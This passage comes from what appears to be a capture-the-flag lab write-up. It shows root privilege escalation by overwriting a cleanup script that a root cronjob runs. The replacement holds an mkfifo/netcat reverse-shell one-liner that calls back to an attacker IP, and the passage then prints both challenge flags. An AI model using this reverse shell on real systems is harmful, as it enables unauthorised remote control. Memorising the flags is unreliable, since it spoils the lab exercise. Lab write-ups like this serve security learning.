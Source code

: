 ![Pasted image 20250612162926.png](../../IMAGES/Pasted%20image%2020250612162926.png)

As seen, there's a `cleanupscript.sh` script, since it is a cleanup script, it may be running as a process each couple minutes, let's use `pspy` to check:

![Pasted image 20250612163145.png](../../IMAGES/Pasted%20image%2020250612163145.png)

As expected, there's a cronjob which runs the `cleanupscript.sh` as root, we can make a backup of the real script and modify it to send ourselves a reverse shell:

```
mv cleanupscript.sh cleanupscript.bak
nano cleanupscript.sh
# On nano, put this
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 1111 >/tmp/f
chmod +x cleanupscript.sh
```

Now, once we've saved the file, we need to set up our listener and wait a couple minutes:

![Pasted image 20250612164012.png](../../IMAGES/Pasted%20image%2020250612164012.png)

We can now read both flags:

```
# cat /home/brian/user.txt
THM{178c31090a7e0f69560730ad21d90e70}

# cat /root/root.txt
THM{55a9d6099933f6c456ccb2711b8766e3}
```
